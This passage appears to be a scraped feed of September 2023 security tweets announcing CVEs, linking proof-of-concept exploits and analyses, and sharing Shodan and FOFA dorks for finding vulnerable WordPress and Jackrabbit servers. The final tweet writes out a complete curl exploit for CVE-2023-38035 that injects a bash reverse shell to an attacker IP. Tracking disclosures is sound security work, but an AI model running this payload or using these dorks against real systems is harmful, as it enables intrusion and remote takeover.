ruby poc_cve_2023_2868.rb &lt;TARGET_IP&gt;
&lt;TARGET_EMAIL&gt;is exists in rb code.

https://t.co/WWlotsOQme https://t.co/Q4fE7Rkjgn
</blockquote>

* https://github.com/cfielding-r7/poc-cve-2023-2868/blob/main/poc_cve_2023_2868.rb

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>70</code></td>
</tr></table>

---

# ajxchapman
**https://twitter.com/ajxchapman/status/1698687203419828522 _at 2023-09-04, 13:19:24_**
<blockquote>
The past week I completely failed to port a Chrome sandbox escape exploit for CVE-2021-30633 to Chrome 90. And by completely, I mean _completely_. This is not something I've attempted before, and I have learned so much in the process.... but man, do I feel like a failure 😆
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---

# TodayCyberNews
**https://twitter.com/TodayCyberNews/status/1698660901845700942 _at 2023-09-04, 11:34:53_**
<blockquote>
CVE-2023-4596: RCE in Forminator plugin for WordPress, 9.8 rating 🔥

The Forminator plugin in WP is vulnerable to arbitrary file upload for unauthenticated users, which may make RCE possible. PoC is available❗️

👉🏻 Dork: http.body:"/wp-content/plugins/forminator"

PoC is here:… https://t.co/ET2b36wngI
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>131</code></td>
</tr></table>

---

# HunterMapping
**https://twitter.com/HunterMapping/status/1698637025354584441 _at 2023-09-04, 10:00:00_**
<blockquote>
🚨Alert🚨 CVE-2023-37895 Apache Jackrabbit RMI #RCE

🧷https://t.co/wMm5EX9Iah

Other Dorks 👇👇👇
FOFA app="Apache-Jackrabbit-JCR-Server"
Shodan http.html:webdav-jcr.jsp

Credit to @Y4er_ChaBug
https://t.co/Ot1BoXIuqH
#Infosys #infosec #infosecurity https://t.co/NrJaCHsDmd
</blockquote>

* https://hunter.how/list?searchValue=web.body%3D%22webdav-jcr.jsp%22
* https://y4er.com/posts/cve-2023-37895-apache-jackrabbit-rmi-rce/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>53</code></td>
</tr></table>

---

# therceman
**https://twitter.com/therceman/status/1698377252013068671 _at 2023-09-03, 16:47:45_**
<blockquote>
Bug Bounty CheatSheet

jQuery UI XSS Payloads

🔹 CVE-2022-31160
🔹 CVE-2021-41184
🔹 CVE-2021-41183
🔹 CVE-2021-41182
🔹 CVE-2016-7103
🔹 CVE-2012-6662
🔹 CVE-2010-5312

🔗 https://t.co/0shlPw6D7u https://t.co/tNvz7cRBb9
</blockquote>

* https://github.com/cve-sandbox/jquery-ui

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>117</code></td>
<td>Favorites: <code>373</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1698241475622916172 _at 2023-09-03, 07:48:14_**
<blockquote>
A look at CVE-2023-29360, a beautiful logical LPE vuln
https://t.co/1ZFcUri1ou
</blockquote>

* https://big5-sec.github.io/posts/CVE-2023-29360-analysis/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>86</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1698240766168973659 _at 2023-09-03, 07:45:25_**
<blockquote>
minidlna 1.3.2 cve-2023-33476 root cause analysis and exploitation 

Part1:
http chunk parsing heap overflow (cve-2023-33476) root cause analysis
https://t.co/4hhlWUd7ou

Part2:
exploiting cve-2023-33476 for remote code execution
https://t.co/1F4HpkgWYW
</blockquote>

* https://blog.coffinsec.com/0day/2023/05/31/minidlna-heap-overflow-rca.html
* https://blog.coffinsec.com/0day/2023/06/19/minidlna-cve-2023-33476-exploits.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>69</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1698170745644630308 _at 2023-09-03, 03:07:10_**
<blockquote>
POC for CVE-2023-34039 VMWare Aria Operations for Networks (vRealize Network Insight) Static SSH key RCE
https://t.co/rEymx6tdxy
</blockquote>

* https://github.com/sinsinology/CVE-2023-34039

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>67</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1697988619347063272 _at 2023-09-02, 15:03:28_**
<blockquote>
RT @blackorbird: #GhostWriter Used CVE-2023-38831 to construct malware.
https://t.co/oolDetFliU https://t.co/tVIgCENaV3
</blockquote>

* https://cert.gov.ua/article/5661411

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>89</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1697940146253902274 _at 2023-09-02, 11:50:51_**
<blockquote>
CVE-2023-34039

POC for CVE-2023-34039 VMWare Aria Operations for Networks (vRealize Network Insight) Static SSH key RCE

https://t.co/ZIBwnUGnFy

#cve #cybersecurity #infosec #pentesting #redteam https://t.co/sG6l7gYHsX
</blockquote>

* https://github.com/sinsinology/CVE-2023-34039

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>111</code></td>
</tr></table>

---

# blackorbird
**https://twitter.com/blackorbird/status/1697863338892681441 _at 2023-09-02, 06:45:39_**
<blockquote>
#GhostWriter Used CVE-2023-38831 to construct malware.
https://t.co/oolDetFliU https://t.co/tVIgCENaV3
</blockquote>

* https://cert.gov.ua/article/5661411

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>87</code></td>
<td>Favorites: <code>243</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1697698233424674861 _at 2023-09-01, 19:49:35_**
<blockquote>
CVE-2023-38035:

curl -kv https://RHOST:8443/mics/services/MICSLogService -H "Content-Type: application/x-hessian" --data-binary @&lt;(printf "c\x01\x00m\x00\x18uploadFileUsingFileInputMS\x00\x07commandS\x00\x30sudo bash -c bash&amp;&gt;/dev/tcp/192.168.56.1/4444&lt;&amp;1S\x00\x06isRootTzNz")
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>124</code></td>
</tr></table>

---

